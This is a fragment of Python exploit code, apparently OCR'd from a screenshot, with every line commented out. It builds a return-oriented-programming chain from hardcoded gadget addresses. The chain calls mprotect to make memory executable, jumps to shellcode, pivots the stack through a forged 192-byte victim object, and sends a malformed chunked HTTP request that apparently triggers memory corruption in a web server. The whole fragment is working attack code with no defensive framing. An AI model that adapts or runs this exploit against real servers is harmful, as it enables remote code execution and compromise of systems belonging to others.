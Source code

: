 ```python
# pop_rdi_ret = 0x000000000053d5a5
# pop_rsi_ret = 0x0000000000687c69
# mov_rdx_rax_ret = 0x0000000001f407f4
# mov_rdi_rdx_ret = 0x000000000045da22
# pop_rdx_ret = 0x000000000043f942
# mprotect_plt = 0x0043F460
# jmp_rsp = 0x00000000005ecfe6

# gadget = b""
# gadget += pwn.p64(mov_rax_rdx_ret)

# # for dirty write, 进程会修改该处栈数据
# gadget += pwn.p64(pop_rcx_ret)
# gadget += pwn.p64(0x0000000001356e88)

# gadget += pwn.p64(pop_rcx_ret)
# gadget += pwn.p64(0xfffffffffffff000)
# gadget += pwn.p64(and_rax_rcx_ret)
# gadget += pwn.p64(pop_rdi_ret)
# gadget += pwn.p64(0)
# gadget += pwn.p64(pop_rsi_ret)
# gadget += pwn.p64(writeable_address)
# gadget += pwn.p64(mov_rdx_rax_ret)
# gadget += pwn.p64(pop_rsi_ret)
# gadget += pwn.p64(0)
# gadget += pwn.p64(mov_rdi_rdx_ret)
# gadget += pwn.p64(pop_rsi_ret)
# gadget += pwn.p64(0x4000)
# gadget += pwn.p64(pop_rdx_ret)
# gadget += pwn.p64(7)
# gadget += pwn.p64(mprotect_plt)
# gadget += pwn.p64(jmp_rsp)

# gadget += b"\xf8" * 12

# assert(len(gadget) <= 192)

# victim_obj = gadget
# victim_obj += b"\xf2" * (192 - len(victim_obj))
# victim_obj += pwn.p64(stack_povit)
# payload += victim_obj

# exp_sk.sendall(payload)

# for sk in socks:
#     if sk:
#         data = b"b" * 40
#         sk.sendall(data)


# pkt = b"""\
# GET / HTTP/1.1
# Host: %s
# Transfer-Encoding: chunked

# %s\r\n%s\r\n\r\n""" % (hostname.encode(), b"0"*((0x202e//2)-2), b"a")

# ssock = create_ssock(hostname, port)
# ssock.send(pkt)
# ssock.recv(4096)
```
